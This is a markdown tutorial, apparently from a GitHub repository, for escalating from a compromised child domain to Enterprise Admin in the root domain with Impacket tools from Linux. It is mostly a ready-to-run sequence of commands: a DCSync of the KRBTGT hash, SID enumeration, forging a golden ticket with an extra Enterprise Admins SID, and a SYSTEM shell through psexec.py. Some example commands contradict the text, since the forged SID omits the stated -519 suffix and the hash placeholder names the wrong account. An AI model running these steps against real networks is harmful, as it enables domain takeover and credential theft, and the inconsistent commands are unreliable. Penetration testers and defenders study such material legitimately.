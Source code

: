 # Attacking Domain Trusts From Linux 🐧
## Preforming Manual Attack
To perform this attack from a **Linux attack host**, we  need to gather the following:

* The **KRBTGT hash** of the **child domain**
* The **Security Identifier (SID)** of the **child domain**
* The **Fully Qualified Domain Name (FQDN)** of the **child domain**
* The **SID of the Enterprise Admins group** in the **root domain**
* The **name of a target user** within the child domain (*note: the account does not need to actually exist*)

Once all of this data is collected, the attack can be carried out using the appropriate tools from the Linux environment (e.g., **Impacket**).

1. Get **KRBTGT hash** of the **child domain**
Performing DCSync with `secretsdump.py`
```shell
secretsdump.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> -just-dc-user Child/krbtgt
secretsdump.py logistics.CORP.local/STEVE@10.10.10.211 -just-dc-user LOGISTICS/krbtgt
```
<img width="1987" height="380" alt="image" src="https://github.com/user-attachments/assets/cc213cc4-d5db-49e6-aadd-63545e2f4c77" />

2. Using lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the **SID of the child domain**
```shell
lookupsid.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> | grep "Domain SID"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.211 | grep "Domain SID"
```
<img width="1884" height="210" alt="image" src="https://github.com/user-attachments/assets/ae3176db-1b5d-4082-9bd3-3349c1553de5" />

3. Get **SID of the Enterprise Admins group** in the **root domain**

```shell
lookupsid.py <Child Domain>/<Compromised User>@<DC Tareget IP> | grep -B12 "Enterprise Admins"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.5 | grep -B12 "Enterprise Admins"
```
<img width="1534" height="498" alt="image" src="https://github.com/user-attachments/assets/e4f122ee-6c3e-462e-a155-77b5f2188898" />
SID of the Enterprise Admins will be Domain SID + CORP\Enterprise Admins (SidTypeGroup)
In Current Example = `S-1-5-21-3842939050-3880317879-2865463114-519`

4. Constructing a Golden Ticket using ticketer.py

```shell
ticketer.py -nthash <NTHash From Compromised User> -domain <Child Domain> -domain-sid <ChildDomain SID> -extra-sid <SID of the Enterprise Admins group> <Fake name of a target user>

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.CORP.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114 AnubisXploit
```
<img width="2559" height="346" alt="image" src="https://github.com/user-attachments/assets/269fbc13-73ca-422e-8348-1a0d69638a72" />
<img width="1398" height="72" alt="image" src="https://github.com/user-attachments/assets/5d90b485-0912-4d35-8b16-fcb059e3ebcd" />

5. Setting the KRB5CCNAME Environment Variable
```shell
export KRB5CCNAME=AnubisXploit.ccache
```

6. Getting a SYSTEM shell using Impacket's psexec.py
```shell
psexec.py <Child Domain>/<Fake Created User>@<Domain Controller> -k -no-pass -target-ip <DC-IP>

psexec.py LOGISTICS.CORP.LOCAL/AnubisXploit@dc01.corp.local -k -no-pass -target-ip <DC-IP>
```

---

## Using Automated Impacket Tool
```shell
raiseChild.py -target-exec <Domain Controller IP> <Child Domain>/<Compromised User>

raiseChild.py -target-exec 10.10.10.5 logistics.CORP.local/STEVE
```


